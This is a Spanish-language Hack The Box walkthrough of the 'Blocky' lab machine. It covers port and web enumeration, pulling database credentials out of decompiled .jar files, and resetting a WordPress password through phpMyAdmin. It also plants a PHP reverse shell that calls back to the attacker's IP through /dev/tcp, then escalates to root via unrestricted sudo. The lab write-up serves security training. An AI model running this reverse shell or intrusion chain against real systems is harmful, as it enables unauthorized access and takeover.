 ```yaml
---
layout: post
title: HTB_Blocky
date: 2023/07/10
---
```


# Blocky {-}

## Introduccion {-}

La maquina del dia 30/07/2021 se llama Blocky
.

El replay del live se puede ver aqui

[![S4vitaar Blocky maquina](https://img.youtube.com/vi/LPh8BTqEx2c/0.jpg)](https://www.youtube.com/watch?v=LPh8BTqEx2c)

No olvideis dejar un like al video y un comentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.37
```
ttl: 63 -> maquina linux. 
Recuerda que en cuanto a ttl se trata, 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.37 
```

si consideras que va muy lento el escaneo puedes poner los siguientes parametros para que valla mucho mas rapido

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,80,25565 10.10.10.37 -oN targeted
```

| Puerto | Servicio  | Que se nos occure?                        | Que falta?           |
| ------ | --------- | ----------------------------------------- | -------------------- |
| 21     | ftp       | conectar como anonymous                   |                      |
| 22     | ssh       | conexion directa                          | usuario y contraseña |
| 80     | http      | Analisis de la web y Fuzzing              |                      |
| 25565  | minecraft | con el puerto 53 pensamos en virt hosting |                      |


### Conectar al ftp como anonymous {-}

```bash
ftp 10.10.10.37
Name: anonymous
password: <enter>
#Output
530 Login incorrect.
```

No nos deja entrar como anonymous

### Analizando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.37
```

Aqui vemos que estamos en un Wordpress

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.37 -oN webScan
```

Ya nos detecta un `/phpmyadmin/` y ficheros de wordpress

#### Chequear la web del puerto 80 {-}

Con firefox navegamos en la web para ver lo que es.

- wappalizer nos dice que es Wordpress
- Vemos que la web esta under construction
- Si pinchamos el post vemos que es el usuario NOTCH que lo a echo

Como es un wordpress intentamos ir al `http://10.10.10.37/wp-login.php` y miramos si hay el usuario NOTCH. 
Efectivamente el usuario NOTCH existe. 

Vamos a por el `http://10.10.10.37/phpmyadmin/` y buscamos previamente en google si encontramos credenciales por
defecto pero no funcionan.

Tenemos que ir buscando mas rutas.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.37/WFUZZ
```

Encontramos un ruta plugins que no suele ser normal porque en wordpress los plugins suelen estar en `/wp-content/plugins` y no
en `/plugins` directamente

Aqui encontramos dos ficheros `.jar`. Los descargamos en nuestra maquina de atacante.




## Evaluacion de vulnerabilidades {-}

### Analizamos los ficheros {-}

Los ficheros `.jar` son ficheros comprimidos que se pueden descomprimir con la herramienta `unzip`

```bash
unzip BlockyCore.jar
unzip griefprevention-1.11.2-3.1.1.298.jar
```

Ya tenemos ficheros `.class` que podemos analizar con **strings** o mejor con **javap**

```bash
javap -c Blockycore.class
```

Aqui ya podemos ver cosas como un usuario root y una contraseña para un sqlUser.

Aqui vamos a la url `http://10.10.10.37/phpmyadmin/` y probamos. Ya podemos entrar en el panel de configuracion
de la base de datos.

Vemos la base de datos de wordpress y le cambiamos la contraseña al usuario NOTCH. Lo unico seria seleccionnar la Funcion
MD5 al lado de la contraseña.

```{r, echo = FALSE, fig.cap="Cambio de contraseña para el usuario notch", out.width="90%"}
    knitr::include_graphics("images/phpmyadmin-notch.png")
```

Intentamos conectar al wordpress con el usuario NOTCH y su nueva contraseña y pa dentro.


### Editar el 404 Template de Wordpress {-}

Cada vez que se puede entrar en el panel de administracion de wordpress siempre hacemos lo mismo.

Pinchamos en `Appearance > Editor` y retocamos el fichero 404 Template.

> [ ! ] Nota: Si este fichero no existe, justo encima, se puede **Select theme to edit** y buscar otro tema.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la 404 Template {-}

Nos ponemos en escucha con el puerto 443.

```bash
nc -nlvp 443
```

Editamos el fichero 404 Template con una reverse shell en php

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

ya podemos ir al url `http://10.10.10.37/?p=404.php` y pa dentro

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### User Pivoting al usuario notch {-}

Miramos si hay reutilisacion de contraseñas 

```bash
su notch 
```

Y con la contraseña encontrada en el ficher `BlockyCore.class` funciona. Y ya podemos ver la flag.## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
#Output
(ALL : ALL) ALL
```

Vemos que el usuario notch puede efectuar cualquier comando como qualquier usuario ;)

```bash
sudo su
whoami

root
```

Ya esta ;)
